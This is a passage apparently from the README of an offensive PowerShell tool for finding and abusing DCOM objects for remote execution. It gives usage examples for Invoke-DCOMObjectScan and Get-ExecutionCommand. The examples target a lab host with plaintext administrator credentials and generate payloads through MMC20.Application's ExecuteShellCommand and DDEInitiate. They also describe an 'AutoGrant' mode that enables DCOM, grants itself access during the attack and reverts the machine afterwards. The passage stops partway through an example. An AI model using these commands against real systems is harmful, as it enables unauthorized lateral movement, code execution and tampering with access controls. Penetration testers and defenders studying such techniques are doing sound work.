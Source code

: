            PS> Invoke-DCOMObjectScan -Type Single -ObjectName "{00020812-0000-0000-C000-000000000046}" -HostList "10.211.55.4" -CheckAccessOnly -Username "lab\administrator" -Password "Aa123456!" -Verbose

  4. Scans all the objects stored on a specified path (e.g. "C:\Users\USERNAME\Desktop\DVS\objects.txt") and finds the function list located in the specified file like "vulnerable.txt" using the "lab\administrator" credentials with the _following configuration_:  
     *Max depth:* 4  
     *Max results:* 1 result for each object.  
     *AutoGrant mode:* If we don't have access to the object or if the DCOM feature is disabled, enable the DCOM feature and perform automatic grant to the relevant DCOM object.  
     Finally, revert the machine to the same state as before the attack.

            PS> Invoke-DCOMObjectScan -MaxDepth 4 -Type List -ObjectListFile "C:\Users\USERNAME\Desktop\DVS\objects.txt"  -FunctionListFile "C:\Users\USERNAME\Desktop\DVS\vulnerable.txt" -AutoGrant -Username "lab\administrator" -Password "Aa123456!" -HostList "10.211.55.4" -MaxResults 1 -Verbose

  5. Scans all the objects stored on the remote machine and finds the functions located on the selected file (e.g. "C:\Users\USERNAME\Desktop\DVS\vulnerable.txt").  
     *Force mode:* This mode will attempt to access a DCOM object even if the tool assumes that the principal-identity doesn't have access to it.  
     This flag is created to solve the edge-case in which the tool can't resolve the groups the current logged-on/provided user is a member of.  
     For example: When an endpoint is used which is not domain joined and the tool can't resolve group which the user is a member of, then, the tool will assume that the user is only a member of "Everyone" group.

            PS> Invoke-DCOMObjectScan -MaxDepth 4 -Type All  -FunctionListFile "C:\Users\USERNAME\Desktop\DVS\vulnerable.txt" -HostList "10.211.55.4" -Force -Verbose


#### Get-ExecutionCommand

Get-ExecutionCommand function allows to generate a PowerShell payload that will interact and execute with the remote DCOM function with the relevant parameters.
* Examples:
  1. Checks if the principal-identity is granted to interact with "{00020812-0000-0000-C000-000000000046}" CLSID object using lab\administrator credentials, then it will generates the execution command.

            PS> Get-ExecutionCommand -ObjectName "{00020812-0000-0000-C000-000000000046}" -ObjectPath "DDEInitiate" -HostList "10.211.55.4" -Username "lab\Administrator" -Password "Aa123456!" -Verbose


  2. Checks for DCOM access,  
     In case the principal-identity doesn't have the necessary permissions or the DCOM feature is disabled, the tool will enable the DCOM feature, grants identity access and interacts with "MMC20.Application" ProgID object using lab\administrator credentials, and will generates you the execution command.
     Finally, it will revert the machine to the same state as before the attack.

            PS> Get-ExecutionCommand -ObjectName "MMC20.Application" -ObjectPath "Document.ActiveView.ExecuteShellCommand" -HostList "10.211.55.4" -Username "lab\Administrator" -Password "Aa123456!" -AutoGrant -Verbose

  3. Tries to interact with "MMC20.Application" ProgID object using current logged-on session (Even the tool assumes that the user doesn't have access to the object),
     then it will generates the execution command.
